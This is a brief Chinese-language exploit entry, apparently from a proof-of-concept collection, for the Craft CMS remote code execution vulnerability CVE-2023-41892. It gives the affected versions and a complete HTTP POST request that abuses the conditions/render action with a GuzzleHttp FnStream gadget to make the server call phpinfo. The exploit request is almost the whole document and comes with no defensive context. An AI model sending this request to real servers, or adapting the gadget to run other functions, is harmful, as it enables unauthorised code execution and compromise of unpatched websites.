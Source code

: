 ## Craft CMS远程代码执行漏洞CVE-2023-41892

## 影响版本
Craft CMS >= 4.0.0-RC1
Craft CMS <= 4.4.14

## exp
```
POST /index.php HTTP/1.1
Host: {{Hostname}}
Content-Type: application/x-www-form-urlencoded

action=conditions/render&test[userCondition]=craft\elements\conditions\users\UserCondition&config={"name":"test[userCondition]","as xyz":{"class":"\\GuzzleHttp\\Psr7\\FnStream",    "__construct()": [{"close":null}],"_fn_close":"phpinfo"}}
```
